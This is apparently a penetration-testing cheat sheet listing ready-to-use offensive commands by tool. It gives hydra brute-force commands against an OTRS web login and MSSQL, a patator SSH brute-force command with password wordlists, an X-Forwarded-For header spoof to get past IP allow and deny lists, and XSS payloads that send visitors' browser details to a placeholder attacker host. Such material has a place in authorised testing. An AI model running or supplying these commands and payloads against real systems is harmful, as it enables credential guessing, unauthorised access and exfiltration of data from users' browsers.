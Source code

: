
# hydra
- service: http
- service: http_post
- service: sql
- tactics: credential_access

## bruteforce http_post with example post-data
- `hydra -l root@localhost -P /usr/share/wordlists/rockyou.txt target-ip http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-60&User=^USER^&Password=^PASS^:
Login failed!"`

## bruteforce mssql
- `hydra -l sa -P ../creds/pass.txt target-ip -s target-port mssql`

---

# patator
- service: ssh
- tactics: credential_access

## bruteforce ssh
- `patator ssh_login host=target-ip port=22 user=username password=FILE0 0=/opt/SecLists/Passwords/probable-v2-top1575.txt`
- Optional: `-x ignore:fgrep='failed.'`

---

# burp
- service: http
- tactics: enumeration

## bypass ip blacklist / whitelist
- `X-Forwarded-For: $allowed-ip`

---

# xss payloads
- service: http
- tactics: inital_access

## xss enumeration payloads
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.appName;</script>`
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.appVersion;</script>`
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.platform;</script>`

